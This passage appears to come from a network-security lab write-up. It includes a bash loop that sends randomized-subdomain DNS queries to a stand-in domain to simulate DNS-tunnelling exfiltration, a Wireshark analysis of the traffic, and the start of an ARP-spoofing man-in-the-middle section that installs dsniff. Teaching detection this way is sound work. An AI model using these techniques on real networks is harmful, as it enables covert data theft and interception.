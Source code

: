 ### *Start `Wireshark` and begin capturing on `enp0s3`.*

---

### Step 2: Simulate DNS-based Data Exfiltration
- ### Run the following script to simulate tunneling via randomized subdomains:
```bash
for i in {1..30}; do
   dig $(head /dev/urandom | tr -dc A-Za-z0-9 | head -c20).stealthy-domain.com @10.10.10.50
done
```

<img width="729" height="277" alt="Lab 38" src="https://github.com/user-attachments/assets/dd57a1e1-e1c5-4d5b-905a-1889c3f90ad6" />

---

### Step 3: Analyze the `DNS Tunneling` in Wireshark

- ### Apply the display filter: `dns`

<img width="1423" height="627" alt="Lab 40" src="https://github.com/user-attachments/assets/34dd9ab5-aa2d-4a8e-b8be-2a55667f456d" /></br>

During the simulation, Wireshark captured multiple DNS query packets originating from the attacker VM directed to `stealthy-domain.com`, demonstrating the encoded subdomain requests typical of DNS tunneling or data exfiltration attempts. These queries contained randomized alphanumeric strings in the subdomain portion, mimicking how sensitive data might be covertly encoded within DNS requests. Shortly after these DNS packets, `ICMP “Destination Unreachable”` messages were observed repeatedly—five times in quick succession—indicating that the DNS server or network device did not recognize or could not route the queried domain. This pattern is consistent with an attacker attempting to exfiltrate data via DNS, while the network or target system rejects or fails to resolve these crafted requests, potentially signaling an attempted stealthy communication or misconfiguration in the simulated environment.

---

<img width="1340" height="120" alt="arp drawio (1)" src="https://github.com/user-attachments/assets/138ff4a4-09bb-401a-8aa3-937ec9518e38" />

## ARP SPOOFING & MAN-IN-THE-MIDDLE ATTACK

### Step 1: Set Up the `Client VM`

- ### Install the `dsniff` package:
```bash
sudo apt update
sudo apt install dsniff -y
```

### *Start `Wireshark` and begin capturing on `enp0s3`.*

---

### Step 2: Start the ARP Spoofing:
